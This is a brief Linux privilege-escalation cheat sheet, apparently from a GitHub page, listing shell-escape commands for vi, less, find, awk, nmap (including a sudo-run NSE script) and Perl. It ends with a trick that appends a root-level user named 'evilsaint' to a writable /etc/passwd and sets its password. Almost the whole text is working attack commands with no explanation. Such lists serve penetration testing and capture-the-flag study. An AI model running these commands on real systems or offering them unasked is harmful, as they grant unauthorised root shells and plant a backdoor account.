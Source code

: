 vi, vim

```
:set shell=/bin/bash:shell
```

man, more, less

```
!bash
```

find

```
find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' ;
```

awk

```
awk 'BEGIN {system("/bin/bash")}'
```

nmap

```
--interactive
```

nmap

```
echo "os.execute('/bin/sh')" > exploit.nse
sudo nmap --script=exploit.nse
```

Perl

```
perl -e 'exec "/bin/bash";'
```

## Misc

Writable /etc/passwd

```
echo "evilsaint::0:0:root:/root:/bin/bash" >> /etc/passwd
echo "evilsaint:p4assword" | chpasswd
```